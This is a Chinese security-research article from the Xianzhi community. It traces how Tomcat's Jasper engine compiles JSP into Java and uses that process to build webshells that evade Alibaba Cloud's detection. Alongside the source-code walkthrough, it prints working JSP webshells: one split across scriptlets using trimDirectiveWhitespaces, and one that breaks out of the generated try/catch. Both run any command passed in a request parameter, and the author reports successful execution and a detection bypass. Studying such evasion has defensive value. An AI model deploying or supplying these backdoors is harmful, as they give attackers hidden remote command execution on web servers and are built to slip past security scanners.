# 基于解析jsp流程构造的webshell 绕过阿里云附魔检测-先知社区

> **来源**: https://xz.aliyun.com/news/18941  
> **文章ID**: 18941

---

# 基于解析jsp流程构造的webshell 绕过阿里云附魔检测

## 前言

话说你真的了解jsp webshell吗？他能变成java你敢信？整个技术是比较底层的，而且也需要对一些点很敏感，jsp实际解析的过程是一个变成java文件的过程，在整个过程中有很多的小点让webshell有了可乘之机，都能够成功绕过阿里云的检测系统

## 流程分析

测试代码，就随便写一个jsp的测试文件

```
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<html>
<head>
    <title>Title</title>
</head>
<body>
<h1>hello world</h1>
</body>
</html>

```

首先tomcat会把不同的请求分发给不同的servlet去处理，这里使用的就是JspServlet去处理jsp文件

会调用它的service方法

重点来到

```
try {
    boolean precompile = preCompile(request);
    serviceJspFile(request, response, jspUri, precompile);
}
```

首先判断是否预编译，这里是false，然后进入serviceJspFile方法，jspUri就是文件名，跟进serviceJspFile方法

首先根据文件名获取一个wrapper

`JspServletWrapper wrapper = rctxt.getWrapper(jspUri);`

然后调用wrapper 的service方法，我们重点看编译的逻辑

```
/*
 * (1) Compile
 */
if (options.getDevelopment() || firstTime ) {
    synchronized (this) {
        firstTime = false;

        // The following sets reload to true, if necessary
        ctxt.compile();
    }
}
```

跟进compile

来到compile:572, JspCompilationContext (org.apache.jasper)

一开始就是个条件判断

```
createCompiler();
if (jspCompiler.isOutDated()) {
    if (isRemoved()) {
        throw new FileNotFoundException(jspUri);
    }
```

创建一个编译器，然后isOutDated是判断是否过时了，总结就是该方法通过修改时间的比较、依赖项的检查以及异常处理，确保 JSP 文件及其依赖项的最新状态，决定是否需要重新编译或更新。确保在 JSP 文件的编译和执行过程中保持最新状态。

然后再判断文件是否还存在

进入下面的方法依然关注重点jspCompiler.compile();

compile:353, Compiler (org.apache.jasper.compiler)

这里就是编译的主要逻辑了



重点关注`String[] smap = generateJava();`

因为我们的jsp到java文件就是在这个方法中

初始化一些变量后获取基本的配置

```
pageInfo = new PageInfo(new BeanRepository(ctxt.getClassLoader(),
        errDispatcher), ctxt.getJspFile(), ctxt.isTagFile());

JspConfig jspConfig = options.getJspConfig();
JspConfig.JspProperty jspProperty = jspConfig.findJspProperty(ctxt
        .getJspFile());
```

### jspProperty属性构造webshell

然后下面的处理就和jspProperty有关了

```
if (jspProperty.isELIgnored() != null) {
    pageInfo.setELIgnored(JspUtil.booleanValue(jspProperty
            .isELIgnored()));
}
if (jspProperty.isScriptingInvalid() != null) {
    pageInfo.setScriptingInvalid(JspUtil.booleanValue(jspProperty
            .isScriptingInvalid()));
}
if (jspProperty.getIncludePrelude() != null) {
    pageInfo.setIncludePrelude(jspProperty.getIncludePrelude());
}
if (jspProperty.getIncludeCoda() != null) {
    pageInfo.setIncludeCoda(jspProperty.getIncludeCoda());
}
if (jspProperty.isDeferedSyntaxAllowedAsLiteral() != null) {
    pageInfo.setDeferredSyntaxAllowedAsLiteral(JspUtil.booleanValue(jspProperty
            .isDeferedSyntaxAllowedAsLiteral()));
}
if (jspProperty.isTrimDirectiveWhitespaces() != null) {
    pageInfo.setTrimDirectiveWhitespaces(JspUtil.booleanValue(jspProperty
            .isTrimDirectiveWhitespaces()));
}
// Default ContentType processing is deferred until after the page has
// been parsed
if (jspProperty.getBuffer() != null) {
    pageInfo.setBufferValue(jspProperty.getBuffer(), null,
            errDispatcher);
}
if (jspProperty.isErrorOnUndeclaredNamespace() != null) {
    pageInfo.setErrorOnUndeclaredNamespace(
            JspUtil.booleanValue(
                    jspProperty.isErrorOnUndeclaredNamespace()));
}
```

其中p神的一个webshell就是在这里构造出来的

是基于trimDirectiveWhitespaces属性，这个属性的意思就是否需要换行

webshell例子如下

```
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page trimDirectiveWhitespaces='true' %>
<%
Runtime
%>
<%
.getRuntime()
%>
<%
.exec(request.getParameter("test"));
%>
```

如果不需要换行，生成的java文件就会是直接连接起来

```
Runtime.getRuntime().exec(request.getParameter("test"));
```

如果换行，生成的java文件如下



我们继续往下看

来到如下代码

```
ctxt.checkOutputDir();
String javaFileName = ctxt.getServletJavaFileName();
```

返回了我们java文的路径，但是java文的内容还没有生成，再往下走到解析文的流程

```
// Parse the file
ParserController parserCtl = new ParserController(ctxt, this);

// Pass 1 - the directives
Node.Nodes directives =
    parserCtl.parseDirectives(ctxt.getJspFile());
Validator.validateDirectives(this, directives);

// Pass 2 - the whole translation unit
pageNodes = parserCtl.parse(ctxt.getJspFile());
```

跟进parseDirectives方法，其中调用了`return doParse(inFileName, null, ctxt.getTagFileJar());`

```
private Node.Nodes doParse(String inFileName, Node parent, Jar jar)
        throws FileNotFoundException, JasperException, IOException {

    Node.Nodes parsedPage = null;
    isEncodingSpecifiedInProlog = false;
    isBomPresent = false;
    isDefaultPageEncoding = false;

    String absFileName = resolveFileName(inFileName);
    String jspConfigPageEnc = getJspConfigPageEncoding(absFileName);

    // Figure out what type of JSP document and encoding type we are
    // dealing with
    determineSyntaxAndEncoding(absFileName, jar, jspConfigPageEnc);

    if (parent != null) {
        // Included resource, add to dependent list
        if (jar == null) {
            compiler.getPageInfo().addDependant(absFileName,
                    ctxt.getLastModified(absFileName));
        } else {
            String entry = absFileName.substring(1);
            compiler.getPageInfo().addDependant(jar.getURL(entry),
                    Long.valueOf(jar.getLastModified(entry)));

        }
    }
```

resolveFileName方法就是返回标准的路径

```
private String resolveFileName(String inFileName) {
    String fileName = inFileName.replace('\', '/');
    boolean isAbsolute = fileName.startsWith("/");
    fileName = isAbsolute ? fileName
            : baseDirStack.peek() + fileName;
    String baseDir =
        fileName.substring(0, fileName.lastIndexOf('/') + 1);
    baseDirStack.push(baseDir);
    return fileName;
}
```

### 编码构造webshell

我们重点是进入String jspConfigPageEnc = getJspConfigPageEncoding(absFileName);

```
private String getJspConfigPageEncoding(String absFileName) {

    JspConfig jspConfig = ctxt.getOptions().getJspConfig();
    JspConfig.JspProperty jspProperty
        = jspConfig.findJspProperty(absFileName);
    return jspProperty.getPageEncoding();
}
```

是根据jspProperty去获取编码方法

然后到如下代码determineSyntaxAndEncoding(absFileName, jar, jspConfigPageEnc);

最后来到

```
if (!isBomPresent) {
    sourceEnc = jspConfigPageEnc;
    if (sourceEnc == null) {
        sourceEnc = getPageEncodingForJspSyntax(jspReader, startMark);
        if (sourceEnc == null) {
            // Default to "ISO-8859-1" per JSP spec
            sourceEnc = "ISO-8859-1";
            isDefaultPageEncoding = true;
        }
    }
}
```

跟进getPageEncodingForJspSyntax方法

```
private String getPageEncodingForJspSyntax(JspReader jspReader, Mark startMark) throws JasperException {
        String encoding = null;
        String saveEncoding = null;
        jspReader.reset(startMark);

        while(jspReader.skipUntil("<") != null) {
            if (jspReader.matches("%--")) {
                if (jspReader.skipUntil("--%>") == null) {
                    break;
                }
            } else {
                boolean isDirective = jspReader.matches("%@");
                if (isDirective) {
                    jspReader.skipSpaces();
                } else {
                    isDirective = jspReader.matches("jsp:directive.");
                }

                if (isDirective && (jspReader.matches("tag") && !jspReader.matches("lib") || jspReader.matches("page"))) {
                    jspReader.skipSpaces();
                    Attributes attrs = Parser.parseAttributes(this, jspReader);
                    encoding = this.getPageEncodingFromDirective(attrs, "pageEncoding");
                    if (encoding != null) {
                        break;
                    }

                    encoding = this.getPageEncodingFromDirective(attrs, "contentType");
                    if (encoding != null) {
                        saveEncoding = encoding;
                    }
                }
            }
        }

        if (encoding == null) {
            encoding = saveEncoding;
        }

        return encoding;
    }
```

简单来说就是寻找类似于

第一种

```
<%@ page language="java" pageEncoding="utf-16be"%>
或
<%@ page contentType="charset=utf-16be" %>
```

第二种

```
<jsp:directive.page pageEncoding="utf-16be"/>
```

这样的方法去设定我们的编码方法

比如这个webshell



然后访问看是否能够执行命令



成功执行  
阿里云检测


如果检测的引擎不能识别这种编码的方法，那么就可以绕过

回到generateJava方法

继续往下看

```
// generate servlet .java file
try (ServletWriter writer = setupContextWriter(javaFileName)) {
    Generator.generate(writer, this, pageNodes);
}
```

setupContextWriter方法就是根据编码来设置writer



### 特殊闭合构造webshell

来到generate方法，真正实现jsp到java的方法

```
public static void generate(ServletWriter out, Compiler compiler,
        Node.Nodes page) throws JasperException {

    Generator gen = new Generator(out, compiler);

    if (gen.isPoolingEnabled) {
        gen.compileTagHandlerPoolList(page);
    }
    gen.generateCommentHeader();
    if (gen.ctxt.isTagFile()) {
        JasperTagInfo tagInfo = (JasperTagInfo) gen.ctxt.getTagInfo();
        gen.generateTagHandlerPreamble(tagInfo, page);

        if (gen.ctxt.isPrototypeMode()) {
            return;
        }

        gen.generateXmlProlog(page);
        gen.fragmentHelperClass.generatePreamble();
        page.visit(gen.new GenerateVisitor(gen.ctxt.isTagFile(), out,
                gen.methodsBuffered, gen.fragmentHelperClass));
        gen.generateTagHandlerPostamble(tagInfo);
    } else {
        gen.generatePreamble(page);
        gen.generateXmlProlog(page);
        gen.fragmentHelperClass.generatePreamble();
        page.visit(gen.new GenerateVisitor(gen.ctxt.isTagFile(), out,
                gen.methodsBuffered, gen.fragmentHelperClass));
        gen.generatePostamble();
    }
}
```

开始编译各种内容

随便跟进一个方法举个例子generatePreamble

就是写入一些内容到我们的文件中去



在生成的jsp文件也确实能够找到对应的代码



然后调用

```
page.visit(gen.new GenerateVisitor(gen.ctxt.isTagFile(), out,
        gen.methodsBuffered, gen.fragmentHelperClass));
```

visit

```
public void visit(Visitor v) throws JasperException {
    Iterator<Node> iter = list.iterator();
    while (iter.hasNext()) {
        Node n = iter.next();
        n.accept(v);
    }
}
```

然后这个iter有如下



就是根据不同的标签去判断然后解析比如其中一个就是



然后会有如下的调用栈

```
visit:1054, Generator$GenerateVisitor (org.apache.jasper.compiler)
accept:929, Node$Scriptlet (org.apache.jasper.compiler)
visit:2376, Node$Nodes (org.apache.jasper.compiler)
visitBody:2428, Node$Visitor (org.apache.jasper.compiler)
visit:2434, Node$Visitor (org.apache.jasper.compiler)
accept:464, Node$Root (org.apache.jasper.compiler)
visit:2376, Node$Nodes (org.apache.jasper.compiler)
```

来到最后的visit方法

```
public void visit(Node.Scriptlet n) throws JasperException {
    n.setBeginJavaLine(out.getJavaLine());
    out.printMultiLn(n.getText());
    out.println();
    n.setEndJavaLine(out.getJavaLine());
}
```

直接把text内容打印到文件中了

如图我们生成的java文件



因此可以构造特殊的闭合，就和sql注入是一样的，比如这个webshell

首先明确我们能够控制 `<%%>` 标签的内容，所以可以构造出如下的webshell

闭合上下

```
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page trimDirectiveWhitespaces='true' %>
<%
    }catch (java.lang.Throwable t){
%>
<%
    }try {
    Runtime.getRuntime().exec(request.getParameter("cmd"));

%>


```





## 最后

这种webshell的检测是一个难题，因为文件结构就不完整，但是又能起到执行命令的效果，可以说是非常有意思了

<https://blog.csdn.net/qq_26323323/article/details/84849347>
